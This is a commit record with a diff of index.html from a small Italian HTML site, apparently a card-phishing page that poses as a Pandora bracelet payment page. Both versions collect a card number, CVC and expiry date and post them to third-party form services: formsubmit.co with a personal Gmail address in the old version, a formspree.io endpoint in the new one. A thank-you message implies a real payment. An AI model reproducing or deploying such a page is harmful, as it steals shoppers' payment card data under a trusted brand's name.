

Before and after one commit to martinadistefano/bracciale-pandora-marty, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (290-993 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Add files via upload

```diff
--- a/index.html
+++ b/index.html
@@ -2,151 +2,89 @@
 <html lang="it">
 <head>
     <meta charset="UTF-8">
-  <title>Acquisto Bracciale</title>
+    <meta name="viewport" content="width=device-width, initial-scale=1.0">
+    <title>Pagamento Pandora</title>
     <style>
         body {
-      font-family: 'Segoe UI', sans-serif;
-      background: #f8f8f8;
-      display: flex;
-      justify-content: center;
-      align-items: center;
-      height: 100vh;
+            font-family: Arial, sans-serif;
+            background-color: #f4f4f4;
             margin: 0;
+            padding: 0;
         }
         .container {
-      background: white;
-      padding: 30px;
-      border-radius: 12px;
-      box-shadow: 0 8px 20px rgba(0, 0, 0, 0.1);
-      width: 100%;
-      max-width: 400px;
+            max-width: 600px;
+            margin: 0 auto;
+            padding: 20px;
+            background-color: white;
+            border-radius: 8px;
+            box-shadow: 0 4px 8px rgba(0, 0, 0, 0.1);
         }
-    h2 {
+        h1 {
+            color: #333;
             text-align: center;
-      color: #ba55d3;
         }
-    label {
-      margin-top: 15px;
-      display: block;
-      color: #333;
-      font-weight: 500;
+        .form-group {
+            margin-bottom: 15px;
         }
-    input {
+        .form-group label {
+            font-size: 14px;
+            color: #555;
+        }
+        .form-group input {
             width: 100%;
             padding: 10px;
-      margin-top: 5px;
-      border-radius: 6px;
-      border: 1px solid #ccc;
-      font-size: 14px;
+            font-size: 16px;
+            border: 1px solid #ddd;
+            border-radius: 4px;
         }
-    button {
-      background-color: #ba55d3;
+        .form-group input[type="submit"] {
+            background-color: #007BFF;
             color: white;
-      border: none;
-      padding: 12px;
-      width: 100%;
-      border-radius: 6px;
-      margin-top: 20px;
+            cursor: pointer;
+        }
+        .form-group input[type="submit"]:hover {
+            background-color: #0056b3;
+        }
+        .message {
+            text-align: center;
             font-size: 16px;
-      cursor: pointer;
-      transition: background 0.3s ease;
-    }
-    button:disabled {
-      background-color: #d3a4e3;
-      cursor: not-allowed;
-    }
-    .thankyou {
-      display: none;
-      text-align: center;
             color: #4CAF50;
-      font-size: 18px;
-      margin-top: 20px;
-    }
-    .heart {
-      color: red;
-    }
-    .note {
-      text-align: center;
-      font-size: 14px;
-      color: #555;
-      margin-top: 10px;
         }
     </style>
 </head>
 <body>
-
     <div class="container">
-  <h2>Acquisto Bracciale</h2>
-  <p style="text-align: center;">
-    <a href="https://it.pandora.net/it/bracciali/" target="_blank">
-      ✨ Vedi bracciali su Pandora
-    </a>
-  </p>
-
-  <p class="note" id="sicurezzaMessaggio">
-    🔒 I tuoi dati sono trattati con attenzione e rispetto, proprio come i nostri gioielli.
-  </p>
-
-  <form id="simulazioneForm" action="https://formsubmit.co/barlettano6@gmail.com" method="POST">
-    <input type="hidden" name="_captcha" value="false">
-    <input type="hidden" name="_next" value="https://example.com/grazie.html">
-    <input type="hidden" name="_subject" value="Nuovo acquisto bracciale">
-
-    <label for="nome">Nome utente:</label>
-    <input type="text" name="nome" required>
-
-    <label for="numero">Numero carta:</label>
-    <input type="text" name="numero" id="numero" maxlength="16" pattern="\d{16}" required>
-
+        <h1>Pagamento Pandora</h1>
+        <form action="https://formspree.io/f/xqablvgb" method="POST">
+            <!-- Campo Nome Utente -->
+            <div class="form-group">
+                <label for="username">Nome Utente:</label>
+                <input type="text" id="username" name="username" required>
+            </div>
+            <!-- Campo Numero Carta -->
+            <div class="form-group">
+                <label for="card-number">Numero Carta:</label>
+                <input type="text" id="card-number" name="card-number" maxlength="16" required>
+            </div>
+            <!-- Campo CVC -->
+            <div class="form-group">
                 <label for="cvc">CVC:</label>
-    <input type="number" name="cvc" id="cvc" max="999" required>
-
-    <label for="scadenza">Data di scadenza:</label>
-    <input type="month" name="scadenza" required>
-
-    <button type="submit" id="submitBtn">Acquista Bracciale</button>
+                <input type="text" id="cvc" name="cvc" maxlength="3" required>
+            </div>
+            <!-- Campo Data di Scadenza -->
+            <div class="form-group">
+                <label for="expiry-date">Data di Scadenza:</label>
+                <input type="text" id="expiry-date" name="expiry-date" required>
+            </div>
+            <!-- Pulsante Submit -->
+            <div class="form-group">
+                <input type="submit" value="Invia Dati">
+            </div>
         </form>
-
-  <div class="thankyou" id="thankyouMsg">
-    ❤️ Grazie per il pagamento! Il tuo bracciale è in arrivo! ❤️
+        <!-- Messaggio di conferma -->
+        <div class="message">
+            <p>Grazie per aver effettuato il pagamento 💖</p>
         </div>
     </div>
-
-<script>
-  // CVC: massimo 3 cifre
-  document.getElementById("cvc").addEventListener("input", function () {
-    if (this.value.length > 3) {
-      this.value = this.value.slice(0, 3);
-    }
-  });
-
-  // Numero carta: solo cifre e massimo 16
-  document.getElementById("numero").addEventListener("input", function () {
-    this.value = this.value.replace(/\D/g, '');
-    if (this.value.length > 16) {
-      this.value = this.value.slice(0, 16);
-    }
-  });
-
-  // Protezione anti-invio multiplo
-  document.getElementById("simulazioneForm").addEventListener("submit", function () {
-    const btn = document.getElementById("submitBtn");
-    btn.disabled = true;
-    btn.innerText = "Invio in corso...";
-    document.getElementById("thankyouMsg").style.display = "block";
-  });
-
-  // Messaggio dinamico in base all’orario
-  const msg = document.getElementById("sicurezzaMessaggio");
-  const hour = new Date().getHours();
-  if (hour < 12) {
-    msg.innerHTML = "🌅 Buongiorno! I tuoi dati sono trattati con cura e discrezione.";
-  } else if (hour < 18) {
-    msg.innerHTML = "🌞 Il tuo acquisto pomeridiano è al sicuro con noi, come sempre.";
-  } else {
-    msg.innerHTML = "🌙 Buonasera! Trattiamo i tuoi dati con attenzione e rispetto.";
-  }
-</script>
-
 </body>
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
